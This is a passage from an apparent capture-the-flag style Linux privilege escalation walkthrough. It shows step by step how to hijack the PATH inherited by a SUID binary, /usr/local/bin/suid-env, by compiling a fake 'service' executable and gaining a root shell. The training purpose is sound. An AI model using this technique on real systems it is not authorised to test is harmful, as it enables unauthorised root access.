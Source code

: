 ```
<br/>

#### 12.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

### 13: SUID / SGID Executables - Environment Variables

The `/usr/local/bin/suid-env` executable can be exploited due to it inheriting the user's `PATH` environment variable and attempting to execute programs without specifying an absolute path.

Executing the file seems to start an `apache2httpd` web server:

```
/usr/local/bin/suid-env
```

![image](https://user-images.githubusercontent.com/14150485/172707687-d9b12874-89cf-490d-ae3a-0a8bfc838bda.png)

Let's see if we can find some more information by searching for any `strings` in the executable:

```
strings /usr/local/bin/suid-env 
```

![image](https://user-images.githubusercontent.com/14150485/172707867-8cf57ec6-49b7-4c0b-84f1-c02813a19397.png)

The last line appears to start a `service` called `apache2`.  Searching for a file by that name under the `/home/user/` directory definitely gives us something we can use.

```
find /home -name 'service*'
```

![image](https://user-images.githubusercontent.com/14150485/172708271-f870202f-225c-42c5-a8c6-731c5e5f7cce.png)

Let's create an executable using the `service` file:

```
gcc -o service /home/user/tools/suid/service.c
```

Setting the `PATH` value to the current directory followed by the initial executable will escalate our privileges to root:

```
PATH=.:$PATH /usr/local/bin/suid-env
```

![image](https://user-images.githubusercontent.com/14150485/172709388-89c65bc9-886b-4184-88cf-ebb8ad0656ac.png)

<br/>

#### 13.1: Read and follow along with the above.

```